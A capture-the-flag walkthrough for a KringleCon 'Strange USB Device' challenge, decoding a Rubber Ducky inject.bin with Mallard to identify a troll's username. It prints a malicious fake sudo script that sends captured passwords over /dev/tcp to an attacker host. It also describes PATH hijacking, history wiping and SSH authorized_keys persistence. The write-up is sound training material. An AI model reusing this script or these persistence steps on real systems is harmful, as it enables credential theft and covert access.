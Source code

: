 # Strange USB Device

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [ducky terminal](https://docker2021.kringlecon.com/?challenge=ducky&id=0b50ffba-320c-4ef4-bd54-9c68faf91628)<br/>
**Terminal hint**: [IPv6 Sandbox](../hints/h5.md)


## Objective

!!! question "Request"
    Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.

??? quote "Morcel Nougat"
    Hello and welcome to the speaker _Un_Preparedness Room!<br/>
    I'm Morcel Nougat, elf extraordinaire.<br/>
    I've heard the talks at the other con across the way are a bit... *off*.<br/>
    I really don't think they have the right sense about what makes for a wonderful holiday season. But, anyway!<br/>
    Say, do you know anything about USB Rubber Duckies?<br/>
    I've been playing around with them a bit myself.<br/>
    Please see what you can do to help solve the Rubber Ducky Objective!<br/>
    Oh, and if you need help, I hear Jewel Loggins, on this floor outside this room, has some experience.


## Hints

??? hint "Ducky Script"
    [Ducky Script](https://docs.hak5.org/hc/en-us/articles/360010555153-Ducky-Script-the-USB-Rubber-Ducky-language) is the language for the USB Rubber Ducky.

??? hint "Ducky RE with Mallard"
    It's also possible the reverse engineer encoded Ducky Script using [Mallard](https://github.com/dagonis/Mallard).

??? hint "Mitre ATT&CK and Ducky"
    The [MITRE ATT&CK tactic T1098.004](https://attack.mitre.org/techniques/T1098/004/) describes SSH persistence techniques through authorized keys files.

??? hint "Duck Encoder"
    Attackers can encode Ducky Script using a [duck encoder](https://docs.hak5.org/hc/en-us/articles/360010471234-Writing-your-first-USB-Rubber-Ducky-Payload) for delivery as `inject.bin`.


## Solution

??? abstract "Welcome message"
    ```
    A random USB device, oh what could be the matter?
    It seems a troll has left this, right on a silver platter.
    Oh my friend I need your ken, this does not smell of attar.
    Help solve this challenge quick quick, I shall offer no more natter.

    Evaluate the USB data in /mnt/USBDEVICE.
    What is the troll username involved with this attack?
    ```

The objective is to find the username of the troll involved with this attack. Start by following the instructions in the welcome message and list the contents of the `/mnt/USBDEVICE` to find an encoded `inject.bin` Ducky Script file. We can decode the file using [Mallard](https://github.com/dagonis/Mallard) which is availabe in our home folder as `mallard.py`.

![Reconnaissance](../img/objectives/o5/recon.png)

Running `python mallard.py --file /mnt/USBDEVICE/inject.bin` prints out the original [Ducky Script commands](../artifacts/objectives/o5/ducky_script.txt).

![Run Mallard](../img/objectives/o5/mallard_exec.png)

The script creates a `~/.config/sudo` folder containing a malicious `sudo` script. When executed, the script requests a password (lines 3-4) and uses the value as input for the legitimate `sudo` tool to verify the password is correct (line 6). Regardless if the password is valid or not the data is then sent to *trollfun.jackfrosttower.com* on TCP port 1337 (lines 9 and 13). If the password is incorrect, the script is run again (lines 10-11). If the password is correct it's passed to the legitimate `sudo` tool (line 14).

!!! example "~/.config/sudo/sudo"
    **Note**: the malicious `sudo` script appears to contain a few errors, starting with the [shebang](https://en.wikipedia.org/wiki/Shebang_(Unix)) line which includes a redundant output redirect statement. The script also starts by executing the legitimate `/usr/bin/sudo` command on line 2, followed by a `read` statement which will result in the user being asked for their password twice. Finally, there's a redundant `fi` statement on line 16 which will cause the script to fail.

    ```bash linenums="1"
    #!/bin/bash > ~/.config/sudo/sudo
    /usr/bin/sudo $@
    echo -n "[sudo] password for $USER: "
    read -s pwd
    echo
    echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null
    if [ $? -eq 1 ]
    then
    echo "$USER:$pwd:invalid" > /dev/tcp/trollfun.jackfrosttower.com/1337
    echo "Sorry, try again."
    sudo $@
    else
    echo "$USER:$pwd:valid" > /dev/tcp/trollfun.jackfrosttower.com/1337
    echo "$pwd" | /usr/bin/sudo -S $@
    fi
    fi
    ```

Next, the `~/.config/sudo/sudo` script is made executable and the `$PATH` environment variable in both `~/.bash_profile` and `~/.bashrc` is updated to ensure that the `~/.config/sudo/` path takes precedence over any other configured paths. The last part of the Ducky Script reverses a string, Base64 decodes it, executes the decoded instructions via `bash`, and erases any shell history evidence by running `history -c` and deleting the `.bash_history` file.

![Reverse and Base64 decode](../img/objectives/o5/base64_decode.png)

 Manually reversing and Base64 decoding the string yields an `echo` statement which copies the SSH key for user *ickymcgoop@trollfun.jackfrosttower.com* into the `~/.ssh/authorized_keys` file, enabling easy SSH access to the host.

!!! done "Answer"
    *ickymcgoop*
